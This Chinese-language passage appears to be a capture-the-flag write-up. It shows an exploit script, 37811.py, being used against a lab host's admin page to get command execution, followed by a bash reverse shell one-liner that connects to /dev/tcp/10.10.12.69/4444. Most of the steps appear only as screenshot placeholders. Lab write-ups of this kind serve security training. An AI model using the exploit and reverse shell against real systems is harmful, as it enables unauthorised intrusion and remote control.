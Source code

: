 配置好的信息如下：

![截图](1c5652b1102f5713e1832d5a9d8bee89.png)

开始执行exp

![截图](87e5f2f0bb563a364aa13610919b6b92.png)

可以看到mechanize报了一个找不到元素的错，mechanize是python里面模拟浏览器操作的模块，结合它需要管理员账号密码，这里应该填的是管理员页面地址，可以看到命令执行成功。

![截图](c953d296cc014088ed9b1450c6bca09b.png)

那么我们就用它反弹shell

![截图](37881be05e47dd611438ef58112a066f.png)

无法正常反弹,这里猜测，可能是因为这串代码传到服务器的时候 可能**因为空格或者是其他的异常的符导致服务器执行失败**,之前我们看到whoami命令是可以正常执行的,那么我们就把代码换成这样

```
python 37811.py http://10.10.10.140/index.php/admin "bash -c 'bash -i >& /dev/tcp/10.10.12.69/4444 0>&1' "
```

这样当服务器解析到bash -c 时 可以把后面单引号内的内容执行，防止意外干扰

![截图](a49f86b0b2873a410de1211ae03a052b.png)
